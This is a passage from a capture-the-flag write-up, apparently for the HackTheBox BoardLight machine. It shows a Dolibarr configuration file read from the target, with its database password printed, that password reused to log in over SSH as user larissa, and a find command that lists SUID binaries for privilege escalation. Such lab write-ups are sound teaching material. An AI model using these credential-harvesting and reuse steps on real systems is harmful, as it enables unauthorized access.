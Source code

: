 ## 4. Lateral Movement
Dolibarr's configuration file /conf/conf.php reveals MySQL database credentials. Using these, we access Larissa's account, which we can found among the web server users:

```bash
cat ./crm.board.htb/htdocs/conf/conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

```bash
ssh larissa@board.htb
```
## 5. Privilege Escalation
User Larissa lacks sudo privileges, so we search for SUID binaries:

We can use linpeas, or if we do it manually, we can use the following command, which will list all SUID binaries on the system:

```bash
find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null
```

<p>
    <img src="assets/img/writeupImgs/boardlight/htb_boardlight_11_perm.jpg" width="700"
    alt="Descripción">  